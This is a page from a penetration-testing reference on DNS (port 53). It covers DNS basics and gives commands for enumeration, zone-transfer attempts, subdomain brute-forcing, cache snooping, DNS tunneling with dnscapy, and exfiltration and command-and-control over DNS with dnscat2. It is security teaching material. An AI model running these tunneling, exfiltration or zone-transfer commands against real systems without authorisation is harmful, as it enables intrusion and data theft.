 ```yaml
---
authors: ShutdownRepo, Tednoob17
---
```


# 🛠️ DNS
# `53 UDP` 

## Theory

The Domain Name System (DNS) is a fundamental protocol of the Internet that translates human-readable domain names into IP addresses. It functions as a distributed database system that enables computers to resolve domain names to the corresponding network addresses required for network communication.

DNS operates on port 53 by default and uses both TCP and UDP protocols. The system is hierarchical, with root servers at the top, followed by Top-Level Domain (TLD) servers, and authoritative name servers for specific domains.

## Practice

### Enumeration

DNS enumeration involves gathering information about a domain's DNS infrastructure. This can be accomplished through various methods and tools.

#### DNS Queries

:::tabs

=== dig
The dig utility performs DNS lookups and displays responses from name servers.

```bash
# Query A records (IP addresses)
dig thehacker.recipes A

# Query name server records
dig thehacker.recipes NS

# Trace DNS resolution path
dig thehacker.recipes +trace
```

=== nslookup
nslookup provides DNS query functionality and debugging capabilities.

```bash
# Standard DNS query
nslookup thehacker.recipes

# Query mail exchange records
nslookup -type=MX thehacker.recipes

# Query specific DNS server
nslookup thehacker.recipes $DNS_IP
```

=== host
host performs DNS lookups with a simplified interface.

```bash
# Basic DNS query
host thehacker.recipes

# Query mail exchange records
host -t MX thehacker.recipes

# Reverse DNS lookup
host $IP_ADDRESS
```

=== whois
whois retrieves registration information for domains.

```bash
# Domain registration lookup
whois thehacker.recipes
```
:::

#### Zone Transfers
Zone transfers (AXFR requests) are a DNS protocol feature that allows a secondary DNS server to receive all DNS records from a primary DNS server. While legitimate for DNS replication, misconfigured servers allowing unauthorized zone transfers can expose complete domain information to potential attackers.

Common signs of misconfiguration include:
- Allowing zone transfers from any source IP
- Missing ACLs for AXFR requests
- Exposed internal DNS records

```bash
# Basic zone transfer attempt
dig axfr @$DNS_IP $DOMAIN

# Zone transfer specifying name server
dig axfr $DOMAIN @ns1.$DOMAIN

# Using host command for zone transfer
host -t axfr $DOMAIN $DNS_IP

# Alternative using fierce for zone transfers
fierce --domain $DOMAIN --dns-servers $DNS_IP
```

> [!NOTE]
> Modern DNS servers typically restrict zone transfers by default. Success usually indicates a misconfiguration.

#### Subdomain Enumeration
DNSRecon enables comprehensive DNS reconnaissance, including subdomain discovery and record analysis.

```bash
# Basic domain enumeration
dnsrecon -d example.com

# Brute force with wordlist
dnsrecon -d example.com -D $WORDLIST -t std --xml $OUTPUT.xml
```

### Attacks

#### DNS Tunneling
DNS tunneling exploits DNS protocol for data exfiltration or command and control communication. While legitimate uses exist (e.g., software updates), the technique is often employed maliciously.

```bash
# Server configuration
sudo python dnscapy_server.py $DELEGATED_ZONE_NAME $EXTERNAL_IP_ADDR

# Client configuration
ssh -o ProxyCommand="sudo python dnscapy_client.py $DELEGATED_ZONE_NAME $IP_ADDR_OF_CLIENT_DNS" yourlogin@localhost
```

#### DNS Cache Snooping
Cache snooping enables examination of a DNS server's cache to determine recently queried domains.

```bash
# Perform cache snooping
dig @$DNS-SERVER $DOMAIN +norecurse
```

### Post-Exploitation

#### DNS Exfiltration
DNS exfiltration leverages DNS queries to extract data from compromised systems. dnscat2 provides encrypted command-and-control capabilities over DNS.

```bash
# Server setup
dnscat2 --dns server=$DNS_SERVER_IP:53

# Client connection
dnscat2 $DOMAIN
```

## Resources

* [HTB Academy - Information Gathering-Web Edition](https://academy.hackthebox.com/module/144/section/1251)
* [Kali Tools - DNSRecon Documentation](https://www.kali.org/tools/dnsrecon)
* [Common DNS Attack Types](https://bluecatnetworks.com/blog/four-major-dns-attack-types-and-how-to-mitigate-them)
* [DNS Tunneling Techniques](https://www.blackhat.com/presentations/bh-usa-08/Miller/BH_US_08_Ty_Miller_Reverse_DNS_Tunneling_Shellcode.pdf)
